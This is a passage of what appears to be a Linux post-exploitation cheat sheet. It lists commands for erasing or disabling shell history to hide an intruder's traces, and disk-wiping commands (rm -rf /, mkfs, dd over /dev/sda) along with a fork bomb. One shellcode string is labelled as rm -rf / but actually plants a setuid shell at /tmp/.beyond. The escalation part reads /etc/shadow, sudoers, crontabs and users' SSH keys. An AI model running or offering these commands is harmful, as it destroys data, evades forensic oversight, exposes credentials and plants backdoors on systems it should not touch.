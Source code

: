*  history -c
*  rm -rf \~/.bash\_history && ln -s \~/.bash\_history /dev/null (invasive)
*  touch \~/.bash\_history (invasive)
*  ~<space>~ history -c (using a space before a command)
*  zsh% unset HISTFILE HISTSIZE
*  tcsh% set history=0
*  bash$ set +o history
*  ksh$ unset HISTFILE
*  find / -type f -exec {} (forensics nightmare)

Note that you’re probably better off modifying or temporary disabling rather than deleting history files, it leaves a lot less traces and is less suspect.

In some cases HISTFILE and HISTFILESIZE are made read-only; get around this by explicitly clearing history (history -c) or by kill -9 $$’ing the shell. Sometimes the shell can be configured to run ‘history -w’ after every command; get around this by overriding ‘history’ with a no-op shell function. None of this will help if the shell is configured to log everything to syslog, however.

~<a name="destroy"/>~~<a>~
### Deleting and Destroying

**If it is necessary to leave the machine inaccessible or unusable. Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.****Oh, and you’re probably a jerk if you use any of the stuff below.**

| File                                  | Description and/or Reason                                     |
| ------------------------------------- | ------------------------------------------------------------- |
| rm -rf /                              | This will recursively try to delete all files                 |
| mkfs.ext3 /dev/sda                    | Reformat the device mentioned, making recovery of files hard  |
| dd if=/dev/zero of=/dev/sda bs=1M     | Overwrite disk /dev/sda with zeros                            |

* Hex version of rm -rf / *(How is this supposed to work?)*  
	> char esp\[] \_\_attribute\_\_ ((section(”.text”))) /\* e.s.p release \*/ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68\"“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99\"“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7\"“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"“\x6e\x2f\x73\x68\x00\x2d\x63\x00"“cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;  

* **Fork Bomb**: The \[in]famous "fork bomb". This command will cause your system to run a large number of processes, until it "hangs". This can often lead to data loss (e.g. if the user brutally reboots, or the OOM killer kills a process with unsaved work). If left alone for enough time a system can eventually recover from a fork bomb.

> :(){:|:&};:




~<a name="escalating"/>~~<a>~
## Escalating

~<a name="paths"/>~~<a>~
### Looking for possible opened paths
* ls -alh /root/
* sudo -l
* cat /etc/sudoers
* cat /etc/shadow
* cat /etc/master.passwd # OpenBSD
* cat /var/spool/cron/crontabs/\* | cat /var/spool/cron/\*
* lsof -nPi
* ls /home/\*/.ssh/\*
